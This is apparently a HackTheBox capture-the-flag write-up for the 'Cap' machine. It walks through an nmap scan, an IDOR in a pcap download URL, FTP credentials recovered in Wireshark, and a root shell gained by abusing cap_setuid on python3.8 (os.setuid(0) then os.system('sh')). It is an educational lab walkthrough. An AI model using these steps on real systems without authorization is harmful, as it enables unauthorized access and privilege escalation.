

# Cap

**By Stager** | FashilHack

---

## What is this machine

Cap is an easy Linux box on HackTheBox. It looks simple on the surface — a web app, some network captures, FTP. But the privesc is where it teaches you something most people miss entirely: **Linux Capabilities**. Not SUID. Not sudo. A completely separate privilege system that linpeas shows you but most beginners scroll past because they don't know what they're looking at yet.

This box taught me that.

---

## Target

```
IP:  10.129.21.34
OS:  Ubuntu Linux
```

---

## Step 1 — Nmap Scan

```bash
nmap -sV -sC 10.129.21.34
```

Three ports:

| Port | Service | Detail |
|---|---|---|
| 21 | FTP | vsftpd |
| 22 | SSH | OpenSSH |
| 80 | HTTP | Python web app |

FTP was open. Noted it but needed creds first. Started with the web app.


---

## Step 2 — Web App and IDOR

Browsed to port 80 — a Python-built dashboard. It had a network capture feature. Clicking it downloaded a pcap file from this URL:

```
http://10.129.21.34/data/1
```

That number in the URL stood out immediately. Changed it:

```
http://10.129.21.34/data/0
http://10.129.21.34/data/2
http://10.129.21.34/data/3
```

Each one returned a different pcap. This is **IDOR — Insecure Direct Object Reference**. The server never checked if I was allowed to access other users' data — it just served whatever number I asked for.

Downloaded the pcap at `/data/0` and opened it in Wireshark.



---

## Step 3 — Wireshark Analysis

Filtered for FTP traffic in Wireshark. FTP sends credentials in plaintext — no encryption at all. The capture showed a full login sequence with username and password visible in the clear.

Got credentials for FTP.


---

## Step 4 — FTP and User Flag

```bash
ftp 10.129.21.34
```

Logged in with the credentials from the pcap. Found the user flag sitting right there.

```bash
get user.txt
```

Tried the same credentials on SSH since port 22 was open — they worked. Got a proper shell.

```bash
ssh nathan@10.129.21.34
```


---

## Step 5 — Privesc Enumeration

Started with the standard checks:

```bash
sudo -l
```
Nothing useful.

```bash
find / -perm -u=s -type f 2>/dev/null
```

Got a long list of SUID binaries — umount, mount, su, passwd, sudo, pkexec and more. Checked every one against GTFOBins. Nothing exploitable for the versions on this box.

Uploaded and ran linpeas. Output was massive and red everywhere. Got overwhelmed trying to read it.

The key section I almost missed was buried under everything else:

```
Files with capabilities:
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
```

That first line was the box. I didn't understand it at the time and almost scrolled past it.


---

## Step 6 — Understanding Linux Capabilities

Linux Capabilities are completely separate from SUID. SUID gives a binary root's identity when it runs. Capabilities give a binary specific root-level powers without making it fully root.

`cap_setuid` means that binary is allowed to call `setuid()` and change its process UID to anyone — including UID 0 (root). Normally only root can do that. But python3.8 had been granted this capability specifically.

The command to find capabilities manually (without linpeas):

```bash
getcap -r / 2>/dev/null
```

This is what I should have run as part of my standard enumeration checklist. It's separate from the SUID find command and would have shown me this immediately.

---

## Step 7 — Exploiting cap_setuid on Python

Opened Python:

```bash
python3
```

First attempt — wrong order:

```python
import os
os.system("sh")     # spawned shell as nathan — wrong
```

The shell came back as nathan because I hadn't called setuid yet. The shell inherited my current UID.

Correct approach — setuid FIRST then spawn the shell:

```python
import os
os.setuid(0)        # change this process UID to root (works because cap_setuid)
os.system("sh")     # shell now inherits root UID
```

```
# whoami
root
# cd /root
# cat root.txt
```

Done.


---

## The Full Chain

```
Nmap → ports 21, 22, 80
  ↓
Web app → data/1 URL → changed to data/0 → IDOR
  ↓
Downloaded pcap → Wireshark → FTP creds in plaintext
  ↓
FTP → user.txt
SSH with same creds → shell as nathan
  ↓
getcap → python3.8 has cap_setuid
  ↓
python3 → os.setuid(0) → os.system("sh") → root shell
  ↓
cat /root/root.txt
```

---

## What I learned from this one

**IDOR is everywhere.** Any number in a URL is worth changing. The app never validated that I owned the data at index 0 — it just served it. In a real engagement this would be a critical finding.

**FTP is plaintext.** Always. Credentials, commands, file transfers — everything visible to anyone on the network capturing traffic. Never use FTP for anything sensitive.

**Linux Capabilities are not SUID.** They are a completely separate system and require a completely separate command to find. `find / -perm -u=s` will never show them. `getcap -r / 2>/dev/null` is the command. Add it to your checklist permanently.

**cap_setuid on any scripting language = root.** Python, perl, ruby — if a scripting language has cap_setuid you can call setuid(0) from inside it and spawn a root shell. One function call.

**Order matters in exploitation.** setuid(0) first, then spawn the shell. Spawning the shell first means it inherits your current UID, not root. The capability only works from within the Python process itself.

**Reading linpeas properly takes practice.** The capabilities section is easy to scroll past when you're overwhelmed by red. Learn the sections by name so you can jump straight to what matters: Files with capabilities, sudo -l output, writable files, cron jobs.

---

_Stager — FashilHack — Simulating Attacks, Securing Businesses._